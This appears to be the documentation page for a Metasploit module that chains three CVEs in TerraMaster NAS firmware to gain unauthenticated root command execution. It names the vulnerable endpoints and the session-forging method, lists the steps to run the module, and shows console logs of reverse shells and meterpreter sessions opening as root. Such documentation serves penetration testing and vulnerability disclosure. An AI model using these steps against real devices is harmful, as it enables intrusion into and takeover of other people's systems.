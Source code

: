 ## Vulnerable Application

This module provides a Terramaster chained exploit that performs session crafting to achieve escalated privileges
that allows an attacker to access vulnerable code execution flaws. TerraMaster Operating System (TOS) versions
`4.2.15` and below are affected.

[CVE-2021-45839](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45839) is exploited to obtain the first administrator's
hash set up on the system as well as other information such as MAC address, by performing a POST request to the
`/module/api.php?mobile/webNasIPS` vulnerable endpoint.
This information is used to craft an unauthenticated admin session using vulnerability
[CVE-2021-45841](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45841) where an attacker can self-sign session cookies
by knowing the target MAC address and the user password hash. Guest users (disabled by default) can be abused using a null/empty hash
and allow an unauthenticated attacker to login as guest which is used to download the `/etc/group` info to obtain the list of admin users
to be used for the session crafting.

Finally, [CVE-2021-45837](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45837) is exploited to execute arbitrary commands as root
by sending a specifically crafted input to vulnerable endpoint `/tos/index.php?app/del`.

This module has been tested against a TerraMaster `F2-210` Model with the specifications listed below:

* TerraMaster F2-210
* CPU: `x64`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2021_45837`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options
No specific options.

## Scenarios

### TerraMaster F2-210 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.10.1:4444 -> 192.168.10.2:41822) at 2023-06-06 07:27:36 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Tue Jun 06 09:28:43 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-210 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (192.168.10.1:4444 -> 192.168.10.2:36938) at 2023-06-06 07:29:50 +0000
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
